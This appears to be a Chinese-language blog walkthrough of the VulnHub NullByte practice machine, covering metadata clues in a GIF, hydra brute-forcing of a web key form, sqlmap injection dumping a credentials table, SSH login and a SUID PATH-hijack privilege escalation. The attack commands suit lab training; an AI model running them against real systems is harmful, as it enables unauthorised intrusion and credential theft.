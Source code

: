 ```yaml
---
layout: post
title:  "vulnhub >_ NullByte"
description: walkthrough
category: vulnhub
---
```

# NullByte

![image-20200623202132962]({{ site.url }}/assets/NullByte.assets/image-20200623202132962.png)

![image-20200623202252351]({{ site.url }}/assets/NullByte.assets/image-20200623202252351.png)

![image-20200623202923806]({{ site.url }}/assets/NullByte.assets/image-20200623202923806.png)

777端口，浏览器一闪而过

bp抓包发现是ssh

![image-20200623203957063]({{ site.url }}/assets/NullByte.assets/image-20200623203957063.png)

80端口

![image-20200623205040326]({{ site.url }}/assets/NullByte.assets/image-20200623205040326.png)

![image-20200623211512809]({{ site.url }}/assets/NullByte.assets/image-20200623211512809.png)

![image-20200623211544628]({{ site.url }}/assets/NullByte.assets/image-20200623211544628.png)



![image-20200623205140672]({{ site.url }}/assets/NullByte.assets/image-20200623205140672.png)

尝试了由这个关键词可以组合的目录，并没有新的信息

下载这个gif图片进行分析，并附加到利用cewl制作的字典中

![image-20200623213450820]({{ site.url }}/assets/NullByte.assets/image-20200623213450820.png)

再利用这个自动对目录进行重新FUZZ

```bash
wfuzz -w wordlist.txt http://192.168.43.11/FUZZ
```

虽然没有fuzz出目录，但是我们注意到一组字符串。

![image-20200623213831433]({{ site.url }}/assets/NullByte.assets/image-20200623213831433.png)

这个字符串是strings打出来的，但是并不是正常应该出现在图像文件字符。

这一点也同样可以用exiftool验证

![image-20200623220217741]({{ site.url }}/assets/NullByte.assets/image-20200623220217741.png)

![image-20200623212914653]({{ site.url }}/assets/NullByte.assets/image-20200623212914653.png)

尝试浏览

```bash
http://192.168.43.11/kzMb5nVYJw/
```

果然

![image-20200623214129680]({{ site.url }}/assets/NullByte.assets/image-20200623214129680.png)

这是在提示我们用暴力进行测试

先抓包看一下

![image-20200623214325473]({{ site.url }}/assets/NullByte.assets/image-20200623214325473.png)

错误会提示invalid key

![image-20200623214536349]({{ site.url }}/assets/NullByte.assets/image-20200623214536349.png)

构建hydra 语句

```bash
hydra -l "" -P /usr/share/wordlists/rockyou.txt 192.168.43.11 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -I
```

![image-20200623221742834]({{ site.url }}/assets/NullByte.assets/image-20200623221742834.png)

![image-20200623221933530]({{ site.url }}/assets/NullByte.assets/image-20200623221933530.png)

抓一下包

![image-20200623222140045]({{ site.url }}/assets/NullByte.assets/image-20200623222140045.png)

反复测试了几次可以输入的内容，回显都只有一种。

fuzz也没有打出其他内容，参考之前登录的时候说登录的form没有连接到mysql，那么这个form可能连接到mysql？

尝试sqlmay跑一下

```bash
sqlmay -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" --dbs
```

![image-20200623223000280]({{ site.url }}/assets/NullByte.assets/image-20200623223000280.png)

果然存在注入，之前打出了phpmyadmin，先dump

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D phpmyadmin --dump --batch
```

都是空表，没有内容。再dump seth

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D seth --dump --batch
```

![image-20200623224153515]({{ site.url }}/assets/NullByte.assets/image-20200623224153515.png)

```bash
ramses:YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE
```

解码

![image-20200623224347932]({{ site.url }}/assets/NullByte.assets/image-20200623224347932.png)

```bash
c6d6bd7ebf806f43c76acc3681703b81
```

![image-20200623224709627]({{ site.url }}/assets/NullByte.assets/image-20200623224709627.png)

![image-20200623224743950]({{ site.url }}/assets/NullByte.assets/image-20200623224743950.png)

```bash
ramses:omega
```

我们之前打出777是ssh，尝试登录

![image-20200623224931488]({{ site.url }}/assets/NullByte.assets/image-20200623224931488.png)

基础枚举，看来我们有一个suid文件

![image-20200623225817866]({{ site.url }}/assets/NullByte.assets/image-20200623225817866.png)

![image-20200623225945387]({{ site.url }}/assets/NullByte.assets/image-20200623225945387.png)

看上去这个程序应该是调用了ps

![image-20200623230215909]({{ site.url }}/assets/NullByte.assets/image-20200623230215909.png)

我们可以尝试将ps替换成bash，并修改环境变量。从而欺骗procwatch

```bash
ln -s /bin/bash ps
export PATH=`pwd`:${PATH}
```

![image-20200623231924275]({{ site.url }}/assets/NullByte.assets/image-20200623231924275.png)

![image-20200623231951589]({{ site.url }}/assets/NullByte.assets/image-20200623231951589.png)

可以成功调用bash，但是用户并不是root

删除我们建立的伪造ps，重新执行procwatch查看一下，发现procwatch中ps中显示的shell是sh

![image-20200623232136292]({{ site.url }}/assets/NullByte.assets/image-20200623232136292.png)

重新链接ps到sh

```bash
ln -s /bin/sh ps
export PATH=`pwd`:${PATH}
```

![image-20200623232305896]({{ site.url }}/assets/NullByte.assets/image-20200623232305896.png)